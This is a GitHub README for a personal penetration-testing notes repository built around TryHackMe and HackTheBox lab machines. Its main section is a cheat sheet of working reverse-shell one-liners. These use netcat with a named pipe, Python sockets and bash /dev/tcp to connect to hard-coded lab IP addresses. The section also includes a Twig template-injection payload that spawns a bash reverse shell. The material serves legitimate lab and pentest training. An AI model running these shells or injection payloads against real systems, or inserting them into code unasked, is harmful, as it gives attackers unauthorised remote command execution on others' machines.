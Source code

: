 # HackNotes

This repository contains my personal notes and tricks that I've gathered while working on various machines in the TryHackMe and HackTheBxo platforms. These notes serve as a guide for penetration testing and help me document my progress and findings.

Please note that these notes are a work in progress, and I'll be continuously adding more content as I progress through the challenges and machines.

## Introduction

In this repository, you will find a compilation of various tricks, commands, and techniques that can be useful during penetration testing activities. These notes are intended to assist in the process of hacking and securing systems.


---

## Reverse shells

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.22.27 4444 >/tmp/f
```

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.22.27",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.22.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

```bash
bash -i >& /dev/tcp/10.18.22.27/4444 0>&1
sh -i >& /dev/tcp/10.10.14.74/4444 0>&1
```

```js
{{this.controller.getTwig().registerUndefinedFilterCallback("passthru")}}
{{ this.controller.getTwig().getFilter("bash -c 'bash -i >& /dev/tcp/10.127.255.241/4455 0>&1'") }}
```

---
### [notes](./other/notes.md)
### [web](./other/web.md)
### [osint](./other/osint.md)
### [windows](./other/windows.md)
### [Linux Privilege Escalation](./other/src/linux_priv_esc.md)
### [links](./other/links.md)

Happy hacking!
